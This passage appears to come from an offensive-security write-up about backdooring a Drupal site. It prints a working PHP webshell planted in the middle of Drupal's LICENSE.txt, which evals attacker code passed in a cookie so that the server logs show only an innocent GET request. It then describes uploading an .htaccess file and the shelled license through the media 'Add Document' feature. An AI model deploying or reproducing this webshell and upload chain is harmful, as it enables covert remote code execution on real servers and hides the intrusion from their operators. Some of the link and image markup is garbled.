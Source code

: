 Because once the Webshell (that we’ll call LICENSE.txt ) is dropped onto the Web server, we can transmit our commands via `$_COOKIE` and in the Web server logs, this will show up as a legitimate GET request to a text file.

Why name our Webshell LICENSE.txt?

Simply because if we take the following file, for example [[https://github.com/drupal/drupal/blob/11.x/core/LICENSE.txt) (which is already present in the Drupal core), we have a file of 339 lines and 17.6 KB in size, which is perfect for adding a small snippet of PHP code in the middle (since the file is big enough|core/LICENSE.txt]].

![[../../../images/image (7) (1) (1) (1).png|]]


File: Patched LICENSE.txt

```txt

...

this License, you may choose any version ever published by the Free Software
Foundation.

<?php

# We inject our payload into the cookies so that in the logs of the compromised
# server it shows up as having been requested via the GET method, in order to
# avoid raising suspicions.
if (isset($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
    if (!empty($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
        eval($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"]);
    } else {
        phpinfo();
    }
}

?>

  10. If you wish to incorporate parts of the Program into other free
programs whose distribution conditions are different, write to the author

...

```
```
#### **Part 3.1 (upload file .htaccess)**

First, we leverage the _Add Document_ (/media/add/document) feature to upload our file containing the Apache directives (.htaccess).

![[../../../images/image (8) (1) (1) (1).png|]]


![[../../../images/image (9) (1) (1) (1).png|]]


![[../../../images/image (10) (1) (1) (1).png|]]


**Part 3.2 (upload file LICENSE.txt)**

Then, we leverage the _Add Document_ (/media/add/document) feature again to upload a Webshell hidden within a license file.

![[../../../images/image (11) (1).png|]]

```